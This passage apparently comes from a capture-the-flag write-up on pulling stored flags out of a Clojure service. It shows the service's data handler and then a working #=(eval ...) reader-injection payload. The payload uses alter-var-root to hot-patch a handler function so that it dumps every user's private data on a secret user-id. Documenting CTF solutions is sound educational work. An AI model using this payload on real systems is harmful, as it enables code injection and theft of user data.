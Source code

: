 ### Reading flags from memory

This was the more tricky part. Lets look at the data handler:

```clj
(def ^:dynamic *users*)
; SNIP
(defn data-handler [port]
  (binding [*users* (atom {})] ; create a locally-scoped bind
    (letfn [(handler-fn [input-reader output-writer]
              (let [input (read input-reader)
                    {:keys [request-type]} input]
                (when request-type
                  (case request-type
                    :register-user (register-user input output-writer)
                    :get-patterns (get-patterns input output-writer)
                    :send-data (data-transmission input output-writer)
                    :get-best-pattern (fun-time input output-writer)
                    (.write output-writer (str {:response-type :error}))))))]
      (util/handler handler-fn port))))
```

The data that we need is stored inside the users atom, which is bound inside the data-handler. That means that only the code inside data-handler can have access to its value. We have code exec in the context of status-handler, which is out of scope. This means that there is no (legal) way to access the data we need.

Luckily enough there are some methods to overcome this limitation. One possible solution would be to call some java methods and find the place that stores this bound variables, but this requires a lot of research. We chose to redefine functions that are being called inside data-handler (we chose fun-time), and then call them using a separate connection.

The final vector looked as follows:

```clj
#=(
        eval  (
            ; alter-var-root is the way to redefine a symbol in a way that is visible for all threads.
            alter-var-root #'doedel.data/fun-time ; its first arg is the name of the symbol we want to redefine
                (fn [x]  ; the second arg is the func that, when called with the old symbol value as an arg
                 (fn [input output-writer]  ; will return the new definition of the symbol, 
                    ;in this case a function with the same signature as the one that we redefine
                    ; that outputs the secret data when called with our 'secret' username
                    (let [user-id (:user-id input)]
                       (if
                            (.equals user-id "supersecret per-command string")
                            (.write output-writer (str @doedel.data/*users*) )
                            ()
                        )
                    )
                    ; and then calls the original function
                    (x input output-writer)
                )
            )
        )
)
```
